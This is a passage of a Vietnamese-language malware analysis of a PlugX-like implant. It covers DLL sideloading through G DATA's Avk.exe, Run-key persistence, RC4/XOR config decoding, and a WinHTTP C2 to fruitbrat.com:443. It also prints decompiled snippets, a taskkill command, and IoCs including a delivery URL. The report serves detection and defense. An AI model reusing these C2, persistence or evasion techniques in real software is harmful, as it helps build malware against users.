Value name `G Data` khớp với tên publisher hiển thị trong Properties của `Avk.exe`, giúp Run key trông giống một entry hợp pháp của phần mềm bảo mật G DATA hơn.

Hai giá trị:

```text
688 768
```

không phải pixel, window size hay tham số cấu hình thật. Chúng là **filler arguments** được sinh ra để làm command line có đúng 3 token và hai giá trị đó sinh ngẫu nhiên:

```text
"C:\Users\Public\GData\Avk.exe" 688 768
```

Khi Windows logon và tự động chạy lại process từ Run key, `CommandLineToArgvW` sẽ tách command line này thành:

```text
argv[0] = C:\Users\Public\GData\Avk.exe
argv[1] = 688
argv[2] = 768

argc = 3
```

Nhờ đó, lần chạy từ persistence sẽ rơi vào nhánh `argc == 3`, thay vì quay lại nhánh `argc == 1` và tự cài đặt lặp lại.

Nói cách khác, `688 768` không quan trọng về mặt giá trị. Vai trò chính của chúng là **bump argc lên 3** để điều hướng control flow của malware vào đúng chế độ runtime sau khi persistence được kích hoạt.

### VI.6. `argc == 3`: Relaunch từ persistence, mutex và controller runtime

Khi process được khởi chạy lại từ Run key, payload đi vào nhánh:



Đầu tiên chương trình Sleep(6000), delay ngắn giúp process tránh tạo ra các dấu hiệu khác thường tại thời điểm logon, đồng thời chờ môi trường user/session ổn định.

Sau đó, payload lấy đường dẫn module hiện tại bằng `GetModuleFileNameW`, rồi tạo mutex:

```text
aumhYjQIQ
```

Mutex này được dùng để đảm bảo chỉ có một instance controller chạy trên máy nạn nhân. Nếu `GetLastError()` trả về `ERROR_ALREADY_EXISTS`, nghĩa là mutex đã tồn tại và một instance khác có thể đang chạy; payload sẽ không khởi động controller runtime thêm lần nữa.

Nếu mutex chưa tồn tại, malware gọi:

```c
fn_start_controller_runtime_100016E1();
```

Đây là điểm chuyển sang stage tiếp theo: khởi tạo context, đọc/generate client ID trong registry, đọc proxy settings, decode C2 table và bắt đầu WinHTTP C2 loop.

Tóm lại, Stage 4 là cầu nối giữa loader và implant runtime thật sự. Ở stage này, payload không chỉ khởi tạo worker thread, mà còn quyết định chế độ chạy dựa trên `argc`: lần đầu thì tự copy sang `%PUBLIC%\GData` và ghi Run key; các lần chạy sau từ Run key thì dùng filler arguments để vào nhánh `argc == 3`, tạo mutex `aumhYjQIQ`, rồi đi vào controller runtime.

---

## VII. Stage 5 - Config Unpacking: RC4 "VOphJo" + XOR

Các string config như `fruitbrat.com`, `aumhYjQIQ`, `%public%\GData` được giấu **sau cả khi đã decode ra final_payload**, khi memory scan trên image đã map không thấy chúng dưới dạng plaintext. Cần thêm 1 lớp giải mã riêng nữa để extract được thực hiện trong hàm `fn_unpack_embedded_runtime_config_10080394`, logic này được gọi ở đầu của thread.



Trong `fn_unpack_embedded_runtime_config_10080394`, payload copy blob config nhúng từ `g_raw_config_blob_10095018` sang workspace tạm `g_tmp_raw_config_blob_1009D61C`, sau đó xóa vùng raw gốc. Blob này dùng `key_len = 6`, RC4 key là `VOphJo`; sau lớp RC4, từng field dạng wide-string tiếp tục được XOR thêm một lớp bằng `fn_xor_decode_wide_buffer_10081750`. Các field recover được gồm install path `%public%\GData`, mutex `aumhYjQIQ`, extension/marker `arp`, và bảng C2 được xử lý ở controller loop.



Hàm RC4 được tách thành `fn_parse_decoded_config_blob_10080104`, trong đó malware khởi tạo S-box bằng key đã recover, rồi gọi `fn_rc4_crypt_buffer_100802E2` để transform buffer. Lớp XOR field nằm ở `fn_xor_decode_wide_buffer_10081750`; seed không cố định mà tăng theo độ dài field, nên nếu chỉ RC4 thì các wide-string vẫn chưa đọc được trực tiếp.

Phần C2 không được decode ngay trong `fn_unpack_embedded_runtime_config_10080394`, mà được xử lý tiếp trong `fn_controller_dispatch_loop_10008EE6`. Hàm này lấy bảng C2 từ `fn_get_embedded_config_table_1008185C`, cấp phát entry tạm, copy từng wide-string C2 ra buffer, XOR-decode bằng cùng helper `fn_xor_decode_wide_buffer_10081750`, rồi convert wide-string sang ANSI bằng `wsprintfA("%ws", ...)`. Sau đó nó kiểm tra độ dài bằng API được resolve động tương đương `lstrlenA`; nếu entry hợp lệ thì gọi `fn_process_controller_entry_with_retries_1000997E` để xử lý kết nối C2.



Tóm lại, pipeline config của payload có **hai tầng chính**: tầng đầu là **RC4 với key `VOphJo`** để mở layout config, tầng sau là **XOR theo từng wide-field** để recover các string sử dụng trong runtime. Riêng C2 được lưu như một bảng entry riêng, chỉ được giải mã khi controller loop chuẩn bị kết nối; trong mẫu này luồng controller mở WinHTTP và kết nối tới `fruitbrat.com:443`.

| Field          | Giá trị plaintext       | Sử dụng                                                              |
| -------------- | ----------------------- | -------------------------------------------------------------------- |
| RC4 key length | `6`                     | Length prefix                                                        |
| RC4 key        | `VOphJo`                | Key cho 0x8A0 byte payload config                                    |
| Magic          | `0x68 0x05 0x68 0x00`   | Sanity check                                                         |
| arg0 (C2 list) | `fruitbrat.com:443` × 3 | Controller dispatch loop iterate                                     |
| arg1 (install) | `%public%\GData`        | `fn_handle_argument_mode_install_persistence_1006B4C4`               |
| Mutex          | `aumhYjQIQ`             | `CreateMutexW` trong nhánh `argc == 3`                               |
| arg3 (marker)  | `arp`                   | File extension marker dùng trong `fn_prepare_payload_command_object` |
| Decoy path     | `%temp%`                | Argument-mode dispatcher                                             |

---

## VIII. Stage 6 - Controller dispatch loop & WinHTTP C2

### VIII.1. Init context và client identity registry



`fn_start_controller_runtime_100016E1` chỉ cấp phát context 0x10 byte, gọi routine khởi tạo context, sau đó chuyển hẳn sang controller loop.

Trong `fn_init_controller_context_10006A40`, implant chuẩn bị state runtime và lấy/generate **client identifier**. Giá trị này được lưu trong registry:

```text
HKCU\Software\Classes\ms-pu\CLSID
```

Đây **không phải Run key**. Nó đóng vai trò như install/client ID cố định của nạn nhân. Khi debug, giá trị đọc được là:

```text
HKEY_CURRENT_USER\Software\Classes\ms-pu\CLSID = 34AE756B7C46AB42
```

Nếu registry value đã tồn tại, implant đọc lại để giữ nguyên identity. Nếu chưa tồn tại, nó generate ID mới rồi ghi xuống registry. Trong code, helper `fn_generate_install_id_registry_value_10041F50` được annotate là routine tạo/cập nhật install/client ID dưới `HKCU\Software\Classes\ms-pu\CLSID`.

Sau khi có ID, `fn_init_controller_context_10006A40` format ID vào buffer global bằng `wsprintfW`; buffer này được dùng về sau như một phần identity/runtime state khi build request C2.

---

### VIII.2. Controller dispatch loop

`fn_controller_dispatch_loop_10008EE6` là vòng lặp chính, chạy dạng `__noreturn`. Nhiệm vụ của nó là lấy từng C2 entry từ config table, giải mã host/port/flag, chuẩn bị network context rồi chuyển sang WinHTTP exchange.

Phần này khớp với code: controller lấy config table bằng `fn_get_embedded_config_table_1008185C`, cấp phát C2 entry bằng `LocalAlloc`, copy wide-string C2, XOR-decode bằng `fn_xor_decode_wide_buffer_10081750`, convert sang ANSI bằng `wsprintfA("%ws", ...)`, rồi gọi `fn_process_controller_entry_with_retries_1000997E` nếu entry hợp lệ.

Trong quá trình chuẩn bị request, implant còn đụng đến một số registry/network artefact đáng chú ý:

```text
HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings
    ProxyEnable
    ProxyServer

HKCU\Software\Microsoft\Edge\BLBeacon
```

`Internet Settings\ProxyEnable` và `ProxyServer` được dùng để lấy cấu hình proxy hiện tại của user trước khi mở WinHTTP. Trong file, `fn_load_wininet_proxy_settings_10007F32` được annotate là routine đọc WinINet proxy settings từ `HKCU Internet Settings ProxyEnable/ProxyServer`, còn helper `fn_read_registry_value_wide_10040BCE` là routine đọc registry value wide-string/typed value.

`Software\Microsoft\Edge\BLBeacon` nhiều khả năng là artefact "cosmetic"/environment shaping liên quan tới Edge profile/telemetry key, không phải persistence. Điểm nên nhấn mạnh trong blog: key này xuất hiện trong luồng controller để làm môi trường request trông giống traffic Edge hơn, trong khi persistence thật nằm ở Run key đã phân tích ở stage trước.

---

### VIII.3. WinHTTP C2 exchange

Sau khi có C2 entry hợp lệ, flow đi qua:

```c
fn_process_controller_entry_with_retries_1000997E
    -> fn_process_c2_entry_winhttp_10009B6E
        -> fn_handle_c2_http_exchange_1000B36A
```

`fn_process_c2_entry_winhttp_10009B6E` build User-Agent kiểu Edge/Chrome, load proxy settings, chuẩn bị buffer request, probe HTTPS connectivity rồi dispatch HTTP exchange.

User-Agent recover được khi debug:

```c
hSession = WinHttpOpen(
    L"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 "
    L"(KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36 Edg/147.0.3912.72",
    WINHTTP_ACCESS_TYPE_NO_PROXY,
    WINHTTP_NO_PROXY_NAME,
    WINHTTP_NO_PROXY_BYPASS,
    0
);

hConnect = WinHttpConnect(
    hSession,
    L"fruitbrat.com",
    0x01BB,        // 443
    0
);
```

Trong code đã annotate rõ controller loop mở WinHTTP, kết nối `fruitbrat.com:443`, và retry sau sleep khi thất bại.

Cookie header dạng:

```text
Cookie: q63S=hyVgqapyYeMbghMpg1aRtzdHKF92lyudpjRsFEmtWUDoA2QahtFxn1XkT;
```

Nên mô tả đoạn này cẩn thận hơn: `q63S` đóng vai trò **beacon/session identifier** cho request C2. Client ID lưu ở `HKCU\Software\Classes\ms-pu\CLSID` được đưa vào runtime context, còn cookie trên wire là token đã được build/encode thêm với nonce hoặc dữ liệu per-request. Vì vậy không nên viết rằng chuỗi hex `34AE756B7C46AB42` luôn xuất hiện plaintext trong cookie; chính xác hơn là cookie đại diện cho identity/session của implant và được server dùng để phân biệt client.

---

### VIII.4. Side-effect: kill `iediagcmd.exe`

Trong runtime còn có routine `fn_shell_taskkill_image_1006971A`, build command line dạng:

```c
wsprintfW(buf, L" /f /im %s", image_name);
ShellExecuteW(0, L"open", L"taskkill", buf, 0, 0);
Sleep(100);
```

Khi được gọi với `iediagcmd.exe`, lệnh thực tế tương đương:

```cmd
taskkill /f /im iediagcmd.exe
```

`iediagcmd.exe` là công cụ diagnostics của Internet Explorer/Edge dùng để thu thập thông tin/log liên quan đến trình duyệt và network. Việc kill process này giúp implant giảm khả năng user/admin chạy diagnostic và vô tình ghi nhận traffic WinHTTP/C2. Trong file, helper này được annotate là routine build/lauch `taskkill`, gọi `ShellExecuteW`, sau đó sleep ngắn trước khi return.

Tóm lại, stage này là phần **long-lived C2 controller**: nó khởi tạo client ID trong registry, đọc proxy của user, dựng môi trường request giống Edge, giải mã C2 entry từ config table, kết nối `fruitbrat.com:443` qua WinHTTP, và dùng cookie/session token để beacon tới server.

---

## IX. Stage 7 - Command dispatch surface

Đến stage này payload xử lý C2 response đi vào `fn_parse_and_dispatch_c2_response_1000C2A8`, sau đó response được parse/decode, tách field bằng `strtok(buf, ",")`, rồi route sang các context/handler tương ứng. Đây là lớp **command dispatch surface** của implant: một số capability đã nằm sẵn trong payload, một số nhánh có vai trò như stub để chuẩn bị object/runtime state cho module mở rộng.

| Handler                                           | Capability                                           |
| ------------------------------------------------- | ---------------------------------------------------- |
| `fn_handle_download_execute_command_100121D6`     | Tải file từ C2, ghi xuống disk, execute, gửi result  |
| `fn_handle_process_launch_command_1001329A`       | `CreateProcessW`, capture output qua pipe, gửi về C2 |
| `fn_handle_async_file_operation_command_1001C666` | File staging async (read/write/move)                 |
| `fn_handle_file_transfer_command_10020FD6`        | Upload/download file chunk theo session              |
| `fn_execute_filesystem_command_chain_1000FFEA`    | Enumerate/list/delete filesystem                     |
| `fn_handle_file_upload_command_10016A5C`          | Streamed file upload back to C2                      |

Kèm theo, `fn_prepare_payload_command_object_10008476` build result object chứa:

- System time + host ID (`fn_format_system_time_and_host_id_1004E974`)
- Computer name / domain / username (`fn_collect_system_identity_strings_1004BF30`)
- Extension marker `arp` (dùng để định danh module type khi C2 đẩy plugin DLL bổ sung)

Một số nhánh handler có dấu hiệu là **plugin loader stub** - cho phép C2 ship module .dll runtime, load qua manual mapper tương tự `cJvsVIDinbGD`. Đây là pattern PlugX kinh điển - backbone implant nhỏ, capability mở rộng qua plugin tải về.

---

## X. Tổng hợp IoC

### X.1. File

```text
Browser_Updater.exe
%LOCALAPPDATA%\pZhozR\Avk.exe        (staging)
%LOCALAPPDATA%\pZhozR\Avk.dll
%LOCALAPPDATA%\pZhozR\AVKTray.dat
%PUBLIC%\GData\Avk.exe                (persistent)
%PUBLIC%\GData\Avk.dll
%PUBLIC%\GData\AVKTray.dat
```

| File                | Hash Type | Hash                                                               |
| ------------------- | --------- | ------------------------------------------------------------------ |
| `Avk.dll`           | SHA256    | `4cd81d26289c4d8383a0ffa34397f0b03941554eac04f1b420269b831accf90e` |
| `AVKTray.dat`       | SHA256    | `d4bc21e12360af2f2cb55872a90b62805150d498c452b2b1c6a05a806cbb3187` |
| `final_payload.bin` | SHA256    | `b52c484a3cc383dd3b4dc79c207946b603a810edf74bff76dca7ad29d4de4167` |

### X.2. Network

```text
45[.]251[.]243[.]210/iis.jpg          (delivery)
fruitbrat[.]com:443                   (C2, 3 entries, WinHTTP HTTPS)
```

### X.3. Registry

```text
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\G Data
    = "C:\Users\Public\GData\Avk.exe" 688 768

HKCU\Software\Classes\ms-pu\CLSID
    = <16-char hex install ID, e.g. 34AE756B7C46AB42>

Reads:
HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ProxyEnable
HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ProxyServer

Touches (cosmetic):
HKCU\Software\Microsoft\Edge\BLBeacon
```

### X.4. Runtime artifact

```text
Mutex   : aumhYjQIQ
Install : %public%\GData
Decoy   : %temp%
Marker  : arp
RC4 key : VOphJo
```

### X.5. Crypto constants

```text
Avk.dll suffix decode    : word XOR 0xE8, last word XOR 0xAD -> "\AVKTray.dat"
AVKTray.dat self-decrypt : XOR 0x63, offset 0xD ... 0x9680D
Runtime config           : RC4 key length 6, key "VOphJo", blob 0x8A0 byte, then per-field XOR
```

---

## XI. Phụ lục A - Sơ đồ luồng thực thi tổng thể

Phụ lục này tổng hợp lại toàn bộ luồng thực thi của mẫu malware theo dạng cây call-flow, bắt đầu từ `Browser_Updater.exe`, qua chuỗi sideload `Avk.exe` / `Avk.dll` / `AVKTray.dat`, đến giai đoạn manual-map `final_payload`, thiết lập persistence, khởi tạo mutex, giải mã config và cuối cùng đi vào WinHTTP C2 loop.

```text
Browser_Updater.exe
└─ TForm1_Button1Click
   ├─ TForm1_InstallRemoteMSI("http://45[.]251[.]243[.]210/iis.jpg")
   └─ MessageBoxW("Installation Complete.")
      └─ MSI payload drops "%LOCALAPPDATA%\\pZhozR\\":
         ├─ Avk.exe
         ├─ Avk.dll
         └─ AVKTray.dat

Avk.exe.WinMain
└─ LoadLibraryExW("AVK.dll") + GetProcAddress("ModuleMain2" | "ModuleMain")
   └─ Avk.dll!avk_ModuleMain / ModuleMain (1000100A)
      ├─ Resolve kernel32 + ntdll APIs by DJB2 hash
      ├─ Decode wide string -> "\\AVKTray.dat"
      │  └─ string decode dùng XOR 0xE8 / last word 0xAD
      ├─ Open/read AVKTray.dat
      │  ├─ NtCreateFile
      │  ├─ NtQueryInformationFile
      │  └─ NtReadFile
      ├─ Allocate executable buffer
      │  ├─ VirtualAlloc
      │  └─ NtProtectVirtualMemory -> PAGE_EXECUTE_READWRITE
      ├─ CreateEventW
      ├─ RtlRegisterWait(callback = payload_buffer)
      └─ SetEvent
         └─ AVKTray.dat decoded stub
            ├─ Self-decode XOR 0x63
            │  └─ decode range: 0xD ... 0x9680D
            └─ cJvsVIDinbGD / 1710 -> fn_manual_map_embedded_payload
               ├─ Scan backward tìm MZ/PE của chính mình
               ├─ Resolve KERNEL32 + NTDLL APIs by ROL19 hash
               ├─ VirtualAlloc image memory
               ├─ Copy PE sections
               ├─ Fix Import Address Table
               ├─ Apply relocations
               ├─ VirtualProtect per-section
               ├─ NtFlushInstructionCache
               ├─ mapped_entry(base, 1, LoadLibraryA)
               │  └─ tương đương DllMain(base, DLL_PROCESS_ATTACH, LoadLibraryA)
               └─ mapped_entry(base, 0x190, 0)
                  └─ fn_spawn_guarded_worker_thread_1000356E
                     ├─ fn_patch_set_unhandled_exception_filter_10001138
                     │  ├─ Dynamically resolve:
                     │  │  ├─ SetUnhandledExceptionFilter
                     │  │  ├─ WriteProcessMemory
                     │  │  └─ GetCurrentProcess
                     │  └─ WriteProcessMemory(
                     │        SetUnhandledExceptionFilter,
                     │        JMP fn_set_unhandled_exception_filter_return_null_10001133
                     │     )
                     │     └─ Patch 5 bytes đầu bằng:
                     │        E9 xx xx xx xx
                     └─ CreateThread(fn_worker_thread_entry_10001290)
                        ├─ fn_unpack_embedded_runtime_config_10080394
                        │  ├─ RC4 decode 0x8A0-byte config blob
                        │  │  └─ key = "VOphJo", len = 6
                        │  └─ XOR per-field để lấy:
                        │     ├─ mutex name
                        │     ├─ install path
                        │     ├─ C2 list
                        │     └─ marker/config fields
                        ├─ GetCommandLineW
                        ├─ CommandLineToArgvW
                        ├─ argc-based branch
                        │  ├─ if argc == 1
                        │  │  ├─ fn_handle_argument_mode_install_persistence(0)
                        │  │  └─ fn_start_controller_runtime_100016E1
                        │  ├─ if argc == 2
                        │  │  ├─ fn_handle_argument_mode_install_persistence(1)
                        │  │  │  ├─ Self-install -> "%PUBLIC%\\GData\\"
                        │  │  │  │  ├─ Avk.exe
                        │  │  │  │  ├─ Avk.dll
                        │  │  │  │  └─ AVKTray.dat
                        │  │  │  └─ HKCU\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run\\G Data
                        │  │  │     = "%PUBLIC%\\GData\\Avk.exe" 688 768
                        │  │  └─ optional fn_start_controller_runtime_100016E1
                        │  └─ if argc == 3
                        │     ├─ CreateMutexW("aumhYjQIQ")
                        │     └─ if GetLastError() != ERROR_ALREADY_EXISTS
                        │        └─ fn_start_controller_runtime_100016E1
                        ├─ CreateMutexW("aumhYjQIQ")
                        └─ fn_start_controller_runtime_100016E1
                           ├─ fn_init_controller_context_10006A40
                           │  └─ Read/write install ID:
                           │     └─ HKCU\\Software\\Classes\\ms-pu\\CLSID
                           └─ fn_controller_dispatch_loop_10008EE6
                              ├─ SetErrorMode(SEM_FAILCRITICALERRORS)
                              ├─ Loop over each C2 entry
                              │  ├─ XOR-decode C2 entry
                              │  │  └─ "fruitbrat[.]com:443"
                              │  ├─ Read proxy settings
                              │  │  └─ HKCU/SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Internet Settings
                              │  │     ├─ ProxyEnable
                              │  │     └─ ProxyServer
                              │  ├─ WinHttpOpen(Edge-like User-Agent)
                              │  ├─ WinHttpConnect("fruitbrat.com", 443)
                              │  └─ fn_handle_c2_http_exchange_1000B36A
                              │     ├─ Build HTTP GET request
                              │     ├─ Add Cookie:
                              │     │  └─ q63S=<install_id / bot_id / encoded context>
                              │     ├─ WinHttpSendRequest / receive response
                              │     └─ fn_parse_and_dispatch_c2_response_1000C2A8
                              │        ├─ download / execute command     -> 100121D6
                              │        ├─ process launch command         -> 1001329A
                              │        ├─ file transfer command          -> 10020FD6
                              │        ├─ async file operation command   -> 1001C666
                              │        └─ filesystem chain command       -> 1000FFEA
                              └─ On failure:
                                 ├─ Sleep(5000)
                                 └─ continue dispatch loop
```

## XII. Phụ lục B - MITRE ATT&CK Framework

| ID          | Tactic, Technique                                                                  | Description                                                                                                                                                                                                                                                                                                                                                                        |
| ----------- | ---------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `T1608.001` | Resource Development: Stage Capabilities: Upload Malware                           | Attacker staging MSI payload dưới tên `iis.jpg` trên server `45[.]251[.]243[.]210`, sau đó `Browser_Updater.exe` tải về qua HTTP.                                                                                                                                                                                                                                                  |
| `T1204.002` | Execution: User Execution: Malicious File                                          | Chuỗi thực thi bắt đầu khi người dùng chạy `Browser_Updater.exe` và click `Install`, khiến downloader tải MSI và drop bộ ba `Avk.exe`, `Avk.dll`, `AVKTray.dat`.                                                                                                                                                                                                                   |
| `T1105`     | Command and Control: Ingress Tool Transfer                                         | `Browser_Updater.exe` thực hiện HTTP GET tới `http://45[.]251[.]243[.]210/iis.jpg`; response thực chất là MSI installer dùng để đưa payload vào máy nạn nhân. MITRE mô tả `T1105` là hành vi chuyển tool/file từ hệ thống bên ngoài vào môi trường bị xâm nhập.                                                                                                                    |
| `T1574.002` | Defense Evasion: Hijack Execution Flow: DLL Side-Loading                           | `Avk.exe` là binary G DATA AntiVirus hợp pháp, được dùng làm executable cover để load `AVK.dll` nằm cùng thư mục. Đây là DLL sideloading: payload độc hại được thực thi thông qua một chương trình hợp pháp.                                                                                                                                                                       |
| `T1036.005` | Defense Evasion: Masquerading: Match Legitimate Resource Name or Location          | Malware tự cài sang `%PUBLIC%\GData`, dùng tên thư mục `GData` và Run key `G Data` để khớp với publisher/brand hợp pháp của `Avk.exe`. MITRE mô tả kỹ thuật này là dùng tên hoặc vị trí gần giống tài nguyên hợp pháp để tránh bị chú ý.                                                                                                                                           |
| `T1547.001` | Persistence: Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder | Payload ghi Run key `HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\G Data = "C:\Users\Public\GData\Avk.exe" 688 768`, khiến malware tự chạy lại khi user logon. MITRE ghi rõ Run key sẽ khiến program được execute khi user đăng nhập.                                                                                                                                        |
| `T1112`     | Defense Evasion / Persistence: Modify Registry                                     | Ngoài Run key persistence, payload còn ghi/đọc client ID tại `HKCU\Software\Classes\ms-pu\CLSID`. Registry value này đóng vai trò install/client identifier cố định cho nạn nhân.                                                                                                                                                                                                  |
| `T1106`     | Execution: Native API                                                              | Loader và payload dùng nhiều Native/Windows API trực tiếp như `NtCreateFile`, `NtQueryInformationFile`, `NtReadFile`, `NtProtectVirtualMemory`, `VirtualAlloc`, `CreateThread`, `WriteProcessMemory`, `WinHttpOpen`, `WinHttpConnect`. MITRE mô tả `T1106` là việc adversary tương tác trực tiếp với native OS API để thực thi hành vi.                                            |
| `T1620`     | Defense Evasion: Reflective Code Loading                                           | `cJvsVIDinbGD` manual-map `final_payload` vào memory: scan MZ/PE, allocate image memory, copy sections, fix IAT, apply relocations, set protection, flush instruction cache và gọi mapped entry point. MITRE định nghĩa reflective loading là allocate và execute payload trực tiếp trong memory thay vì chạy từ file path trên disk.                                              |
| `T1027`     | Defense Evasion: Obfuscated Files or Information                                   | Chain dùng nhiều lớp obfuscation: `AVKTray.dat` không có PE header, payload được XOR `0x63`, config dùng RC4 key `VOphJo`, per-field XOR, control-flow flattening và string/API obfuscation. MITRE mô tả `T1027` là làm file hoặc nội dung khó phát hiện/phân tích bằng encode/encrypt/obfuscate.                                                                                  |
| `T1027.007` | Defense Evasion: Obfuscated Files or Information: Dynamic API Resolution           | `Avk.dll` resolve API bằng DJB2 hash; `cJvsVIDinbGD` resolve bằng ROL19 hash; worker thread giải mã API name rồi resolve runtime. MITRE nêu rõ malware có thể dùng hash thay cho string API và tự reproduce quá trình linking/loading bằng `GetProcAddress` / `LoadLibrary`.                                                                                                       |
| `T1027.009` | Defense Evasion: Obfuscated Files or Information: Embedded Payloads                | Payload thật được giấu trong `AVKTray.dat` dưới dạng data blob, không có header PE rõ ràng. `Avk.dll` chỉ đọc file `.dat`, cấp RWX rồi trigger callback để chuyển quyền thực thi.                                                                                                                                                                                                  |
| `T1027.013` | Defense Evasion: Obfuscated Files or Information: Encrypted/Encoded File           | `AVKTray.dat` chứa vùng payload encoded XOR `0x63`; config runtime được giải mã bằng RC4 `VOphJo` rồi XOR từng wide-field để lấy install path, mutex, C2 list và marker.                                                                                                                                                                                                           |
| `T1027.016` | Defense Evasion: Obfuscated Files or Information: Junk Code Insertion              | Avk.dll có các đoạn decoy console code như `NO_COLOR`, `SetConsoleMode`, buffered writer nằm cạnh resolver, có tác dụng gây nhiễu human reader. Có thể map ở mức phụ trợ vì đây không phải junk code thuần NOP, mà là logic đánh lạc hướng phân tích.                                                                                                                              |
